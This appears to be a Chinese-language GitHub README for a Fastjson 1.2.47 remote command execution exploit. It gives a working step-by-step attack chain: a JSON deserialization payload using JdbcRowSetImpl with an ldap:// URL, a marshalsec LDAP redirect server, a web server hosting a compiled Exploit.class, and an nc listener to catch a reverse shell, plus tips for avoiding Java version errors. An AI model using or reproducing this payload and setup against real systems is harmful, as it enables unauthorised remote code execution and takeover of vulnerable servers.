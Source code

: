 # fastjson-1.2.47-RCE
Fastjson &lt;= 1.2.47 远程命令执行漏洞利用工具及方法，以及避开坑点

以下操作均在Ubuntu 18下亲测可用，openjdk需要切换到8，且使用8的javac
```
> java -version
openjdk versin "1.8.0_222"

> javac -version
javac 1.8.0_222
```

### 0x00 假设存在漏洞的功能

```
# param参数内容被fastjson调用解析

POST /note/submit/

param={'id':29384,'content':'Hello','type':'string'}
```

### 0x01 测试外连

准备一台服务器监听流量
```
nc -lvvp 7777
```

发送Payload，将IP改为监听服务器IP
```
POST /note/submit/

param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://IP:7777/Exploit","autoCommit":true}}}
```

如果监听服务器有流量，可以继续下一步

### 0x02 准备LDAP服务和Web服务

将marshalsec-0.0.3-SNAPSHOT-all.jar文件和Exploit.java放在同一目录下

在当前目录下运行LDAP服务,修改IP为当前这台服务器的IP
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IP/#Exploit
```

在当前目录下运行Web服务
```
python3 -m http.server 80 或者 python -m SimpleHTTPServer 80
```

### 0x03 修改Exploit并编译成class文件

修改Exploit.java中的反弹IP和端口（准备接收反弹SHELL的服务器IP和监听端口）

使用javac编译Exploit.java，生成Exploit.class文件（注意：javac版本最好与目标服务器接近，否则目标服务器无法解析class文件，会报错）
```
javac Exploit.java
```

### 0x03 准备

回顾一下，现在目录应该有三个文件
```
marshalsec-0.0.3-SNAPSHOT-all.jar
Exploit.java
Exploit.class
```

服务器正在开启LDAP和Web
```
LDAP Server：Listening on 0.0.0.0:1389
Web  Server：Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

一个nc正在准备接收反弹回来的SHELL
```
nc -lvvp 7777
```

### 0x04 执行
修改ip为正在运行LDAP和Web服务的服务器IP
```
POST /note/submit

param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}}
```

接下来如果没有任何报错的话，LDAP将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行

你的LDAP服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL

### 0x05 问题

当javac版本和目标服务器差太多，会报一个下面那样的错误，所以需要使用1.8的javac来编译Exploit.java
```
Caused by: java.lang.UnsupportedClassVersionError: Exploit has been compiled by a more recent version of the Java Runtime (class file version 55.0), this version of the Java Runtime only recognizes class file versions up to 52.0
```

当运行LDAP的服务器java版本过高，会无法运行LDAP服务，虽然显示正在Listening，但是Fastjson的JNDI会报错，显示无法获取到资源，所以要使用java 1.8（openjdk 8）来运行LDAP服务
